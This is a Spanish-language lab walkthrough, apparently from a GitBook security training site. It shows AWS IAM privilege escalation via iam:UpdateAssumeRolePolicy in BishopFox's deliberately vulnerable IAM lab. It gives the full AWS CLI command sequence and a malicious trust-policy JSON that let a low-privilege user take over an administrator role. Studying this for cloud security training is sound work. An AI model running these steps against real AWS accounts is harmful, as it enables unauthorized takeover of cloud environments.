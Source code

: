# AssumeRolePolicy Update

Una <mark style="color:green;">**AssumeRolePolicy**</mark> (también denominada política de confianza), define qué entidades pueden asumir un rol. El permiso para actualizar una <mark style="color:green;">**AssumeRolePolicy**</mark> cae técnicamente en la categoría de escalada de privilegios "Permisos sobre políticas". Sin embargo, AssumeRolePolicy merece una categoría aparte debido a su importancia en los entornos de AWS, además del hecho de que a menudo se malinterpreta.

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption><p>MiPoliticaEC2</p></figcaption></figure>

La política llamada _MiPoliticaEC2_, especifica que el rol solamente puede ser asumida por el servicio EC2, como se indica en el objeto del JSON: “service”: “ec2.amazonaws.com”.

Cuando otra entidad del entorno (como un usuario u otro servicio) que intente asumir este rol AWS denegará la solicitud. Esta es una protección importante contra los intentos de escalar privilegios asumiendo un rol de privilegios elevados.

El permiso <mark style="color:green;">**iam:UpdateAssumeRolePolicy**</mark> proporciona a una entidad la capacidad de cambiar la <mark style="color:green;">**AssumeRolePolicy**</mark> de un rol. Por lo tanto, si un usuario no está incluido en esta política, pero tiene la capacidad de actualizarla, simplemente puede agregar su cuenta de usuario <mark style="color:green;">**AssumeRolePolicy**</mark>, y en consecuencia, asumir el rol. Según los permisos asociados con el rol, esto podría proporcionar una ruta para la escalada de privilegios.

## Laboratorio

{% embed url="https://github.com/BishopFox/iam-vulnerable#supported-privilege-escalation-paths" %}
Lab: IAM - Vulnerable | Escenario: privesc14
{% endembed %}

Usuario del laboratorio:privesc14-UpdatingAssumeRolePolicy-user con el rol:

<figure><img src="../../../.gitbook/assets/image (28) (1).png" alt=""><figcaption></figcaption></figure>

### Configuración inicial

Listar las políticas asociadas al usuario:

{% code overflow="wrap" %}
```
aws iam list-attached-user-policies --user-name privesc14-UpdatingAssumeR olePolicy-user
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (34) (2).png" alt=""><figcaption></figcaption></figure>

Después, usando el ARN del nombre de la política se puede listar los permisos:

{% code overflow="wrap" %}
```
aws iam get-policy-version --policy-arn arn:aws:iam::651927172911:policy/privesc14-UpdatingAssumeRolePolicy --version-id v1
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Ahora se tiene que generar llaves de acceso para trabajar con el usuario:

{% code overflow="wrap" %}
```
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/privesc14- UpdatingAssumeRolePolicy-role --role-session-name privesc14
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Y configurar el acceso con AWS configure:

```bash
aws configure --profile privesc14
```

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

Y validar las llaves:

```bash
aws sts get-caller-identity --profile privesc14
```

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

### Explotación

En este escenario, se tiene que crear un documento de política que contenga el permiso **sts:AssumeRole** sobre el ARN del usuario atacante

{% code title="assumerolepolicy.json" overflow="wrap" %}
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:sts::651927172911:assumed-role/privesc14-UpdatingAssumeRolePolicy-role/privesc14"
            },
            "Action": "sts:AssumeRole",
            "Condition": {}
        }
    ]
}

```
{% endcode %}

{% hint style="info" %}
El ARN del usuario que se encuentra en nuestra política maliciosa es el valor resultante del comando aws sts get-caller-identity
{% endhint %}

A continuación, se tiene que modificar la política para un rol administrativo con el permiso **update-assume-role-policy** , con el objetivo de que el usuario privesc14 pueda asumir dicho rol:

{% code overflow="wrap" %}
```
aws iam update-assume-role-policy --role-name Rol-Administrator --policy-document file://assumerolepolicy.json --profile privesc14
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

Listando el rol que se acaba de de actualizar se puede observar que tiene capacidades de administrador

<figure><img src="../../../.gitbook/assets/image (19) (1) (2).png" alt=""><figcaption></figcaption></figure>

Dado que el rol apunta ahora a nuestro usuario y el usuario tiene capacidades de asumir roles, procedemos a asumir el rol actualizado malicioso:

{% code overflow="wrap" %}
```
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/Rol-Administrator-Spartan --role-session-name privesc14admin --profile privesc14
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (15) (3).png" alt=""><figcaption></figcaption></figure>

Con las nuevas credenciales se proceden a configurar en aws configure con un nuevo perfil

```
aws configure --profile privesc14admin
```

<figure><img src="../../../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>

Y dado que este rol ahora tiene permisos de administrador, podemos decir que se a comprometido exitosamente.






